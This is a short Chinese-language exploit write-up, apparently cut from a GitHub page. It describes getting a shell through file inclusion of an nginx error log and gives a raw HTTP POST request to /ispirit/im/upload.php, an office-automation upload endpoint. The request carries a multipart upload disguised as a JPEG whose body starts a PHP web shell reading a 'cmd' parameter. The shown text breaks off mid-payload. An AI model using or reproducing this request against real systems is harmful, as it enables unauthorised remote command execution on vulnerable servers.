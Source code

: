 此处文件包含的另外一个利用，直接触发nginx的错误日志，利用文件包含直接getshell

![image](img/f096b1ff4c7208f6626cbd5f2c077bd4.png)

### 请求包

```
POST /ispirit/im/upload.php HTTP/1.1
Host: 10.10.20.116:88
Content-Length: 658
Cache-Control: no-cache
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarypyfBh1YB4pV8McGB
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,zh-HK;q=0.8,ja;q=0.7,en;q=0.6,zh-TW;q=0.5
Cookie: PHPSESSID=123
Connection: close

------WebKitFormBoundarypyfBh1YB4pV8McGB

Content-Disposition: form-data; name=“UPLOAD_MODE”

2

------WebKitFormBoundarypyfBh1YB4pV8McGB

Content-Disposition: form-data; name=“P”

123

------WebKitFormBoundarypyfBh1YB4pV8McGB

Content-Disposition: form-data; name=“DEST_UID”

1

------WebKitFormBoundarypyfBh1YB4pV8McGB

Content-Disposition: form-data; name=“ATTACHMENT”; filename=“jpg”

Content-Type: image/jpeg `<?php

$command=$_POST[‘cmd’];

```